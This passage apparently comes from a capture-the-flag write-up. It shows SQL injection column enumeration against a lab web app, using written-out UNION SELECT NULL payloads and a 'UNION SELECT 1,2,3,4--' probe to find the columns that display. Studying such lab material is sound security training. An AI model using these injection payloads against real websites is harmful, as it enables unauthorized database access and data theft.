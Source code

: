 ![screenshot18](../assets/images/madeyes_castle/screenshot18.png)

This means that the original query returns more than 1 column. 

We repeat this process, incrementing the number of `NULL`s that we submit until we no longer get a server error:

```
test' UNION SELECT NULL--
test' UNION SELECT NULL,NULL--
test' UNION SELECT NULL,NULL,NULL--
...
```

When I submitted 4 `NULL`s:

```
test' UNION SELECT NULL,NULL,NULL,NULL--
```

We can see that we get back a valid response!

![screenshot19](../assets/images/madeyes_castle/screenshot19.png)

This means that we must have **4 columns** in our payload. 

Next, let's find out which column will be displayed on the HTTP webpage. We use the following payload to do so:

```
test' UNION SELECT 1,2,3,4--
```

We can see that the data from the **first** and **last** columns are displayed (1 & 4):

![screenshot20](../assets/images/madeyes_castle/screenshot20.png)
